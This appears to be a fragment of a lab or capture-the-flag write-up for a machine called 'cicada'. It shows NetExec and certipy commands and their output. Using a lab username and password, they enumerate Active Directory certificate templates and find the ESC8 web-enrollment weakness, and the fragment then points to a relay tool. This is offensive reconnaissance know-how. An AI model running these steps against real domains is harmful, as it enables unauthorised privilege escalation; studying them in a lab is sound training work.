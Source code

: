 get all information about certs

    ➜  cicada nxc ldap DC-JPQ225.cicada.vl -u 'Rosie.Powell' -p 'Cicada123' -k -M adcs -o SERVER=cicada-DC-JPQ225-CA                 
    LDAP        DC-JPQ225.cicada.vl 389    DC-JPQ225.cicada.vl [*]  x64 (name:DC-JPQ225.cicada.vl) (domain:cicada.vl) (signing:True) (SMBv1:False)
    LDAP        DC-JPQ225.cicada.vl 389    DC-JPQ225.cicada.vl [+] cicada.vl\Rosie.Powell:Cicada123 
    ADCS        DC-JPQ225.cicada.vl 389    DC-JPQ225.cicada.vl Using PKI CN: cicada-DC-JPQ225-CA
    ADCS        DC-JPQ225.cicada.vl 389    DC-JPQ225.cicada.vl [*] Starting LDAP search with search filter '(distinguishedName=CN=cicada-DC-JPQ225-CA,CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,'
    ADCS        DC-JPQ225.cicada.vl 389    DC-JPQ225.cicada.vl Found Certificate Template: DirectoryEmailReplication
    ADCS        DC-JPQ225.cicada.vl 389    DC-JPQ225.cicada.vl Found Certificate Template: DomainControllerAuthentication
    ADCS        DC-JPQ225.cicada.vl 389    DC-JPQ225.cicada.vl Found Certificate Template: KerberosAuthentication
    ADCS        DC-JPQ225.cicada.vl 389    DC-JPQ225.cicada.vl Found Certificate Template: EFSRecovery
    ADCS        DC-JPQ225.cicada.vl 389    DC-JPQ225.cicada.vl Found Certificate Template: EFS
    ADCS        DC-JPQ225.cicada.vl 389    DC-JPQ225.cicada.vl Found Certificate Template: DomainController
    ADCS        DC-JPQ225.cicada.vl 389    DC-JPQ225.cicada.vl Found Certificate Template: WebServer
    ADCS        DC-JPQ225.cicada.vl 389    DC-JPQ225.cicada.vl Found Certificate Template: Machine
    ADCS        DC-JPQ225.cicada.vl 389    DC-JPQ225.cicada.vl Found Certificate Template: User
    ADCS        DC-JPQ225.cicada.vl 389    DC-JPQ225.cicada.vl Found Certificate Template: SubCA
    ADCS        DC-JPQ225.cicada.vl 389    DC-JPQ225.cicada.vl Found Certificate Template: Administrator

understand ESC8

    ➜  cicada nxc smb DC-JPQ225.cicada.vl -u 'Rosie.Powell' -p 'Cicada123' -k -M enum_ca
    SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [*]  x64 (name:DC-JPQ225) (domain:cicada.vl) (signing:True) (SMBv1:False)
    SMB         DC-JPQ225.cicada.vl 445    DC-JPQ225        [+] cicada.vl\Rosie.Powell:Cicada123 
    ENUM_CA     DC-JPQ225.cicada.vl 445    DC-JPQ225        Active Directory Certificate Services Found.
    ENUM_CA     DC-JPQ225.cicada.vl 445    DC-JPQ225        http://DC-JPQ225.cicada.vl/certsrv/certfnsh.asp
    ENUM_CA     DC-JPQ225.cicada.vl 445    DC-JPQ225        Web enrollment found on HTTP (ESC8).

so its ESC8 we need templates so lets run certipy

    ➜  certipy certipy-ad find -k -no-pass -ns 10.10.96.219 -debug -dc-ip DC-JPQ225.cicada.vl

    [SNIP]

    ➜  certipy cat 20250113193445_Certipy.txt | grep -i "ESC"
        ESC8                              : Web Enrollment is enabled and Request Disposition is set to Issue

### ESC8
The attack has been automated in [KrbRemoteRelay](https://github.com/CICADA8-Research/RemoteKrbRelay) by Cicada8
